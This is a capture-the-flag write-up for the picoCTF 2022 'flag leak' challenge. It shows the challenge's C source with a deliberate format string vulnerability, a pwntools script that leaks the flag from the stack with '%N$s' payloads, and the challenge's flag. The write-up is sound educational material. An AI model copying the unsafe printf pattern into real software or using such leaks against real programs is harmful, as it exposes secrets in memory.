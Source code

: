 # picoCTF 2022

> Darshan Patel

## Overview

| Tables | Description |
| ------ | ----------- |
| Category | Binary Exploitation |
| Challenge Name | flag leak |
| Points | 300 |

## Description
Story telling class 1/2 I’m just copying and pasting with this program. What can go wrong?

This challenge provided a binary and its C source code:

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>
#include <wchar.h>
#include <locale.h>

#define BUFSIZE 64
#define FLAGSIZE 64

void readflag(char* buf, size_t len) {
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }

  fgets(buf,len,f); // size bound read
}

void vuln(){
   char flag[BUFSIZE];
   char story[128];

   readflag(flag, FLAGSIZE);

   printf("Tell me a story and then I'll tell you one >> ");
   scanf("%127s", story);
   printf("Here's a story - \n");
   printf(story);
   printf("\n");
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  // Set the gid to the effective gid
  // this prevents /bin/sh from dropping the privileges
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  vuln();
  return 0;
}
```

From the source code we can see it will read the flag into flag variable. Besides, vulnerability is format string vulnerability by looking at this code:

```python3 
printf(story);
```

Variables are store in stack, chances are we can leak the flag by utilizing this format string vulnerability.

I created a simply script to leaked the flag, not perfect but it will do its job:

```python3
#!/usr/bin/env python3
from pwn import *

elf = context.binary = ELF("./vuln", checksec=False)
context.log_level = "error"

for x in range(130):
  try:
    p = remote('saturn.picoctf.net', 49713)
    p.recvuntil(b">> ")
    p.sendline('%{}$s'.format(x).encode())
    p.recvline()
    leaked = p.recvline()
    if b"CTF{" in leaked:
      print("Flag:", leaked)
      break
    else:
      print(leaked)
  except EOFError:
    pass
  ```
  
To run the `exploit`: `python3 solv.py`, and we obtain the `flag`
 
### Flag:

`picoCTF{L34k1ng_Fl4g_0ff_St4ck_0551082c}`
